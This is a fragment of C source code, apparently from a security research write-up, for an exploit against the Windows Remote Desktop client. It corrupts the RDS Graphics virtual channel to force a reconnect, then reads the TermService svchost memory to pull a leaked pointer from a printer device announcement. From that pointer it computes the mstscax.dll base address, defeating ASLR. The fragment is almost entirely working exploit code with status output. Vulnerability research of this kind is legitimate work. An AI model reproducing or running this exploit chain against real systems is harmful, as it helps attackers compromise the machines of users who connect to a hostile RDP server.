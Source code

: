 ```c
    // Close RDPDR channel
    close_virtual_channel();

    // Trick the client into reconnecting by corrupting the Graphics channel
    // Sometimes it reconnects automatically, sometimes it requires manual action...
    if (!connect_to_virtual_channel("Microsoft::Windows::RDS::Graphics", 10, DYNAMIC_CHANNEL))
    {
        return 1;
    }
    write_to_virtual_channel("fuzzed up beyond all repair", 27);
    close_virtual_channel();

    // Wait for the client to reconnect
    Sleep(20000);

    // The client will send a Device List Announcement upon initialization
    // Retrieve the Device List Announcement (DR_PRN_DEVICE_ANNOUNCE) from svchost memory

    svchostPid = get_termservice_pid();
    if (!svchostPid)
    {
        return 1;
    }

    hProcess = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, svchostPid);
    if (!hProcess)
    {
        printf("[x] Could not open svchost process. (%lu)\n", GetLastError());
        return 1;
    }

    for (unsigned char *p = NULL; VirtualQueryEx(hProcess, p, &info, sizeof(info)); p += info.RegionSize)
    {
        if (info.State == MEM_COMMIT && info.Protect != PAGE_NOACCESS && info.Protect != PAGE_GUARD)
        {
            buffer = malloc(info.RegionSize);
            ReadProcessMemory(hProcess, info.BaseAddress, buffer, info.RegionSize, &bytesRead);
            for (int i = 0; i < bytesRead; i++)
            {
                leak = (BYTE *)buffer + i;
                if (!memcmp((char *)leak, (char *)L"Brother", 14))
                {
                    for (int j = 0; j < 256; j++)
                    {
                        if (leak[j + 7] == 0 && leak[j + 6] == 0 && leak[j + 5] == 0x7f)
                        {
                            printf("[+] Found address leak! 0x%p\n", *((char **)(leak + j)));
                            for (int k = 0; k < sizeof(vtable_offsets) / sizeof(vtable_offsets[0]); k++)
                            {
                                if (((*((unsigned long long *)(leak + j))) & 0xFFFF) == (vtable_offsets[k] & 0xFFFF))
                                {
                                    printf("[+] -> Potential base address for mstscax.dll: 0x%p\n", *((char **)(leak + j)) - vtable_offsets[k]);
                                }
                            }
                            // hexdump((char *)leak, 256);
                        }
                    }
                }
```